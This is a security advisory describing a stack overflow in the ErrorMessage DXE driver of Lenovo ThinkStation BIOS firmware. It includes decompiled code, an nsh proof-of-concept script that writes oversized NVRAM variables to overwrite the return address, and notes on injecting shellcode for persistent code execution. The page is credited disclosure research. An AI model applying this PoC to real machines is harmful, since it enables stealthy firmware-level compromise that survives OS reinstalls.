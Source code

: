 There is a vulnerability in the latest version of BIOS firmwares in multiple ThinkStations, which could lead to **arbitrary code execution in UEFI DXE phase**.

Take ThinkStation P320 for example, the latest version of the firmware can be downloaded here: https://download.lenovo.com/pccbbs/thinkcentre_bios/s06jy61usa.exe. This firmware is updated in 20 July, 2022.

## Vulnerability Description

This vulnerability is similar to CVE-2021-42059, the vulnerability exists due to incorrect use of the `gRT->GetVariable` service in driver `ErrorMessage`.

The root cause exists in function located offset `0x1C88` in `ErrorMessage`.

```C
__int64 sub_1C88()
{
 // ...
  DataSize[0] = 1i64;
  if ( (gRT_0->GetVariable(aBiospwdchanged, &VendorGuid, 0i64, DataSize, &Data) & 0x8000000000000000ui64) == 0i64
    && Data == 1 )
  {
    sub_42E4(2i64, 4294967071i64, 0i64, 0i64, 0i64);
    Data = 0;
    gRT_0->SetVariable(aBiospwdchanged, &VendorGuid, 7u, DataSize[0], &Data);
  }
  if ( (gRT_0->GetVariable(aBiossetupdatac, &VendorGuid, 0i64, DataSize, &v5) & 0x8000000000000000ui64) == 0i64
    && v5 == 1 )
  {
    sub_42E4(2i64, 4294967072i64, 0i64, 0i64, 0i64);
    v5 = 0;
    gRT_0->SetVariable(aBiossetupdatac, &VendorGuid, 7u, 1ui64, &v5);
  }
  if ( (gRT_0->GetVariable(aHarddiskpwdcha, &VendorGuid, 0i64, DataSize, v1) & 0x8000000000000000ui64) == 0i64
    && v1[0] == 1 )
  {
    sub_42E4(2i64, 4294967078i64, 0i64, 0i64, 0i64);
    v1[0] = 0;
    gRT_0->SetVariable(aHarddiskpwdcha, &VendorGuid, 7u, 1ui64, v1);
  }
  result = gRT_0->GetVariable(aBiosupdatenvra, &VendorGuid, 0i64, DataSize, &v3);
  //...
}
```

The above codes simply do following things:

1. Use `GetVariable` service to get the variable `BIOSPWDChangedFlag`'s value from the NVRAM.
2. If the previous step fails, which would return a negative error code, the execution flow will pass the if section, and will try to call `GetVariable` service to read the variable `BIOSSetupDataChangedFlag` instead.
3. Similarly, if the second step still fails, it will try to call `GetVariable` for the third time, this time would try to read the variable `HardDiskPwdChangedFlag`.
4. Finally, if the third step fails, it will try to read the variable `BIOSUpdateNVRAMFlag`.



**The problem is,  these calls to GetVariable share a same `DataSize` without initialization between.**

If the value of  variable `BIOSPWDChangedFlag` is a very large string, after the first call to `gRT->GetVariable`, the value of `DataSize` will be updated to the size of a large int number.

Thus the following call to `gRT->GetVariable` may cause a stack overflow if `BIOSSetupDataChangedFlag`'s size (or other variable's size) is large than the original buffer. 



## Vulnerability Analysis

We first write a PoC script, that overwrites the return address to "AAAA".

Before we run the exploit, use the Emulator build from EDK2, and simply load the driver.

![image-20220922163052070](image-20220922163052070.png)

The driver is loaded successfully. The PoC is written in a `nsh` script:

```nsh
setvar BIOSPWDChangedFlag -guid e102c8aa-0f10-4a0e-90a7-a6f816089bb7 -bs -rt -nv =4141414141414141414141414141414141414141414141    4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141

setvar BIOSSetupDataChangedFlag -guid e102c8aa-0f10-4a0e-90a7-a6f816089bb7 -bs -rt -nv =4141414141414141414141414141414141414141414141    4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141
```

After running the script, the variable `BIOSPWDChangedFlag` and `BIOSSetupDataChangedFlag` will be set to a large string full of "AAAA".

Using gdb to debug, we can see that when the parent function of `sub_1c88` trys to return, the return address has been overflowed to our payload.

![image-20220922164307484](image-20220922164307484.png)

And because the variable is stored in the NVRAM, the next time we trys to load the driver, the shellcode will still be triggered thus cause a exception.

![image-20220922164426884](image-20220922164426884.png)

This exception occurs because the return address of the parent function has been overwrited to AAAAAAAA

Since we can control the **RIP**, we can further write shellcode in the stack to perform a call to `ConOut->OutputString`. 

We can use rasm2 to generate the shellcode.

![image-20220922170157012](image-20220922170157012.png)

Run the script to set two variables and load the driver, we can see that the control flow has been hijacked and we successfully print a string.

![image-20220922170239888](image-20220922170239888.png)

Similarly, we can choose `HardDiskPwdChangedFlag` or `BIOSUpdateNVRAMFlag` rather than `BIOSPWDChangedFlag` and `BIOSSetupDataChangedFlag` to excute our shellcode.

In conclusion, an attack can exploit this vulnerability to **elevate privileges from ring 3 or ring 0 **(depends on the operating system) to DXE Runtime UEFI application and **execute arbitrary code**.

And a **malicious code can be installed** as a result of the vulnerability exploitation in DXE driver, which could **survive across an operating system (OS) boot process **and runtime or modify NVRAM area on SPI flash storage (to gain persistence on target platform).

## Credits

This vulnerability is found by Zichuan Li([@river-li](https://github.com/river-li)) and Fangtao Cao([@cft789](https://github.com/cft789)).
